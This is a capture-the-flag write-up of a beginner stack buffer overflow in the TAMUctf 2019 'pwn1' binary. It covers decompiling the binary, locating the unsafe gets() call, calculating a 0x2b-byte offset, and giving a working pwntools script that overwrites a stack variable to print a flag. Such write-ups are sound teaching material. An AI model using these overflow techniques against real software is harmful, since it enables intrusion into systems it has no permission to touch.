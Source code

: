### Binary Exploitation

### Source: Tamu19

### Basic File Check

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ file tamu19_pwn1 
tamu19_pwn1: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
                                                                                                                                                                                                                  
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ checksec tamu19_pwn1 
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Documents/Pentest/BOF/03-begineer_bof/tamu19_pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We see its a `x86` binary which is `dynamically linked`, `non-stripped` and its protection are `NX,PIE`

Now i'll run it to have an idea of what it does

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1                           
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
pwner
I don't know that! Auuuuuuuugh!
```

Lets decompile the binary using ghidra

```
{
  int input_length;
  char input [43];
  int secret;
  undefined4 local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(stdout,(char *)0x2,0,0);
  local_14 = 2;
  secret = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other  side he see."
      );
  puts("What... is your name?");
  fgets(input,0x2b,stdin);
  input_length = strcmp(input,"Sir Lancelot of Camelot\n");
  if (input_length != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,stdin);
  input_length = strcmp(input,"To seek the Holy Grail.\n");
  if (input_length != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(input);
  if (secret == L'\xdea110c8') {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

We can see what it does

```
1. It asks for the username which is (Sir Lancelot of Camelot) and uses fget to receieve the input which is then stored in a 43bytes buffer 
2. If that first codition isn't meet it exits but if it if we get another question
3. What's the quest which is (To seek the Holy Grail.) and the answer is recieved using fget which is also still stored in the 43bytes buffer 
4. If the condition isn't meet it exits but if it is we get another question
5. What is my secret 
6. It does an if check to compare the value stored in the secret variable with 0xdea110c8
7. if its correct it prints out the flag else it exits
```

Now from this we know that get can perform a buffer overflow cause the third question uses an insecure input receive method which is `get`

Also the problem is, in the code the secret variable currently has a value of `0`

So when the if check reaches we won't get the flag cause the comparism isn't meet

So lets try it now 

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
lol 
I don't know that! Auuuuuuuugh!
```

Now lets start it again and this time around send 100 A's when we get to the third question

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ python2 -c "print 'A'*100"                               
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                                                                                                                                                                                                                  
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1             
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I don't know that! Auuuuuuuugh!
zsh: segmentation fault  ./tamu19_pwn1
```

Sweet we get a segfault

Now lets get the offset. Which we will get from looking at the stack frame in ghidra


```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             int __cdecl main(void)
             int               EAX:4          <RETURN>                                XREF[1]:     00010807(W)  
             undefined4        EAX:4          input_length                            XREF[1]:     00010807(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     00010780(R)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)  
             undefined4        Stack[-0x18]:4 secret                                  XREF[2]:     000107b4(W), 
                                                                                                   000108b2(R)  
             undefined1[43]    Stack[-0x43]   input                                   XREF[5]:     000107ed(*), 
                                                                                                   00010803(*), 
                                                                                                   0001084f(*), 
                                                                                                   00010865(*), 
                                                                                                   000108a6(*)  
                             main                                            XREF[5]:     Entry Point(*), 
                                                                                          _start:000105e6(*), 00010ab8, 
                                                                                          00010b4c(*), 00011ff8(*)  
```

Nice we see our input starts with an offset of `-0x43` and the offset to secret is `-0x18`

Therefore this gives an offset of `0x43 - 0x18 = 0x2b` between the start of our input and the secret variable

So bascially what we'll do is to overwrite the variable secret with the content of `0xdea110c8`

Here's my script below

```
from pwn import *

io = process('./tamu19_pwn1')

answer_1 = "Sir Lancelot of Camelot"
answer_2 = "To seek the Holy Grail."

io.sendlineafter(b'?', answer_1)
io.sendline(answer_2)

offset = "0"*0x2b
overwrite = p32(0xdea110c8)

secret = offset + overwrite 

io.send(secret)
io.send('\n')
io.interactive()
```

Lets run it 

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ python2 pwnexploit.py
[+] Starting local process './tamu19_pwn1': pid 103999
[*] Switching to interactive mode
[*] Process './tamu19_pwn1' stopped with exit code 0 (pid 103999)
What... is your quest?
What... is my secret?
Right. Off you go.
FLAG{this_is_a_fake_flag}

[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive

```

And we're done 


<br> <br>
[Back To Home](../../index.md)
<br>







